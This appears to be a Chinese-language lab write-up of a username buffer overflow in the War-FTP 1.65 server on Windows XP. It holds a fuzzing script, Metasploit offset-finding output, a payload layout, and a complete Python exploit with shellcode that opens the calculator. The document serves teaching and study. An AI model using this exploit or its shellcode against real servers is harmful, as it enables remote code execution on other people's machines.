 ```yaml
---
title: war-ftp1.65用户名缓冲区溢出 
date: 2019-04-23 23:24:58
---
```


## 运行环境
受害机：`Windows XP SP0`

攻击机：`Kali Linux`

## 软件及漏洞说明
War-ftp 是一个可以快速搭建ftp服务器的软件。

![](/images/warftp.jpeg)

查阅资料发现该软件的特定版本存在缓冲区溢出漏洞。

## 攻击原理
由于软件没有对输入的用户名进行边界检查，所以当我们输入的用户名过长，超过数组边界时，
数据将会溢出，并写入函数栈的高地址方向(即栈底方向)。甚至会覆盖函数的返回地址，从而
造成函数返回错误，如果我们精心设计了一段数据将函数返回地址覆盖为我们设计好的代码的
地址，那么函数在返回时便会返回到我们设计的代码，并开始执行我们设计的代码，而放弃原来
的未执行的代码。
因此，我们可以通过这种方式让ftp服务器执行一段我们精心设计好的恶意代码，当然，也可以
像本次攻击一样，只让它执行系统的计算器。

## 攻击方法和步骤

- 确定缓冲区长度
  
  - 我们首先编写python脚本（用来登录ftp服务器），输入不同长度的超长字符串，直到程序异常（说明服务器发生了缓冲区溢出）

    ```python
    #!/usr/bin/env python3
    # codeing:utf-8

    from ftplib import FTP
    import sys

    ftp = FTP()
    ftp.connect(sys.argv[1], int(sys.argv[2]))
    while True:
      evil = 'A'*int(input())
      ftp.login(evil, 'nosence')
    ```
    当输入长度为600时当前程序发生异常，即服务器发生缓冲区溢出

  - 采用工具软件来辅助确定缓冲区长度
    > /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600

    生成如下字符串

    > Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2A
    > c3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae
    > 6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9
    > Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2A
    > j3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al
    > 6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9
    > Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2A
    > q3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As
    > 6As7As8As9At0At1At2At3At4At5At6At7At8At9

    我们在受害机中打开调试软件`Imuunity Debugger`附加在`warftp`进程上进行调试

    在攻击机上以上述字符串作为用户名连接服务器，这时可以看到服务器已经在调试器中停止运行，记下此时的`EIP`值。

    ![](/images/debug.jpeg)
    
    再次使用辅助工具进行定位

    ![](/images/match.png)

    由此我们知道缓冲区长度为485,返回地址从486开始，并根据调试器中显示的从`ESP`的地址开始的字符的长度，我们也能推算出`ESP`的偏移为493
    
- 确定`PAYLOAD`的结构

  在本次攻击中并未采用课上所讲的`NSR`，`RNS`，`AR`等常用的`PAYLOAD`的结构。

  采用的是以`ESP`为中间跳板的`PAYLOAD`结构，即将返回地址填充为系统的动态链接库中的`JMP ESP`或`PUSH ESP`（本次攻击采用后者），RET命令所在的地址（函数在返回时，`EIP`指向动态链接库中，执行跳转指令再返回`ESP`执行我们填充在`ESP`后面的程序指令）

  故`PAYLOAD`的结构应该为
  > 485字节的字符——4字节的`JMP ESP`（或`PUSH ESP,RET`）指令——4字节的字符——`SHELLCODE`

- 按设计好的结构填充`PAYLOAD`
  由于对汇编不熟悉，所以本次攻击中使用的``SHELLCODE``都是在网上找的，而且由于
  因为系统的`JMP ESP`资料特别少，所以就编写程序寻找，但找到的地址不只允许系统调用，用户无法
  访问，所幸最后在网上找到了本系统对应的`PUSH ESP,RET`的地址。
  在网上找好对应系统的`SHELLCODE`和`JMP ESP`的字节码按上述结构填充即可。

  ```python
    jmpesp = '\x54\x1d\xab\x71'
    shellcode = (
            "\x31\xdb\x64\x8b\x7b\x30\x8b\x7f"
            "\x0c\x8b\x7f\x1c\x8b\x47\x08\x8b"
            "\x77\x20\x8b\x3f\x80\x7e\x0c\x33"
            "\x75\xf2\x89\xc7\x03\x78\x3c\x8b"
            "\x57\x78\x01\xc2\x8b\x7a\x20\x01"
            "\xc7\x89\xdd\x8b\x34\xaf\x01\xc6"
            "\x45\x81\x3e\x43\x72\x65\x61\x75"
            "\xf2\x81\x7e\x08\x6f\x63\x65\x73"
            "\x75\xe9\x8b\x7a\x24\x01\xc7\x66"
            "\x8b\x2c\x6f\x8b\x7a\x1c\x01\xc7"
            "\x8b\x7c\xaf\xfc\x01\xc7\x89\xd9"
            "\xb1\xff\x53\xe2\xfd\x68\x63\x61"
            "\x6c\x63\x89\xe2\x52\x52\x53\x53"
            "\x53\x53\x53\x53\x52\x53\xff\xd7")
    PAYLOAD = '\x90'*485 + jmpesp + '\x90'*4 + shellcode
  ```
  

- 编写程序将我们的设计好的`PAYLOAD`发送给服务器

  ```python 
    #!/usr/bin/env python3
    # codeing:utf-8

    from ftplib import FTP
    import sys

    jmpesp = '\x54\x1d\xab\x71'
    shellcode = (
            "\x31\xdb\x64\x8b\x7b\x30\x8b\x7f"
            "\x0c\x8b\x7f\x1c\x8b\x47\x08\x8b"
            "\x77\x20\x8b\x3f\x80\x7e\x0c\x33"
            "\x75\xf2\x89\xc7\x03\x78\x3c\x8b"
            "\x57\x78\x01\xc2\x8b\x7a\x20\x01"
            "\xc7\x89\xdd\x8b\x34\xaf\x01\xc6"
            "\x45\x81\x3e\x43\x72\x65\x61\x75"
            "\xf2\x81\x7e\x08\x6f\x63\x65\x73"
            "\x75\xe9\x8b\x7a\x24\x01\xc7\x66"
            "\x8b\x2c\x6f\x8b\x7a\x1c\x01\xc7"
            "\x8b\x7c\xaf\xfc\x01\xc7\x89\xd9"
            "\xb1\xff\x53\xe2\xfd\x68\x63\x61"
            "\x6c\x63\x89\xe2\x52\x52\x53\x53"
            "\x53\x53\x53\x53\x52\x53\xff\xd7")

    evil = '\x90'*485 + jmpesp + '\x90'*4 + shellcode

    ftp = FTP()
    ftp.connect(sys.argv[1], int(sys.argv[2]))
    ftp.login(evil, 'nosence')
    ftp.quit()
  ```

## 结果
  ![](/images/calc.jpeg)
